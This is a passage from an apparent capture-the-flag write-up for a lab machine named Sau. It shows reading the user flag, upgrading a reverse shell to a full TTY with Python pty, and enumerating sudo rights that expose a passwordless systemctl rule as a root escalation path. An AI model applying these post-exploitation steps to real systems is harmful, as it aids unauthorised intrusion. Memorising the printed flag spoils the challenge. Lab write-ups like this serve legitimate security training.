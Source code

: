 ```bash

puma@sau:/opt/maltrail$ cd /home/puma
cd /home/puma
puma@sau:~$ cat user.txt
cat user.txt

327b415ec573c1bd0ba02afd53ec33b0

puma@sau:~$

```
> user flag - `327b415ec573c1bd0ba02afd53ec33b0`

---

## 🧍⬆️🧑‍💼 Vertical Privilege Escalation

```bash

puma@sau:/opt/maltrail$ tty
tty
not a tty
puma@sau:/opt/maltrail$

```
> upgrade shell to `pty` via python:

```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo;fg
export TERM=xterm-256color
reset

```
> Result:

```bash

puma@sau:/opt/maltrail$ tty
/dev/pts/1
puma@sau:/opt/maltrail$

```
> Checking configured privileges for user `puma` in `/etc/sudoers`:

```bash

puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

```
> The command `/usr/bin/systemctl status trail.service` can be run by `puma` as any other user and group (`ALL : ALL`).
> This is a potential vector for privilege escalation since I can run this command with `root` privileges, for example, without having to
> enter a password:
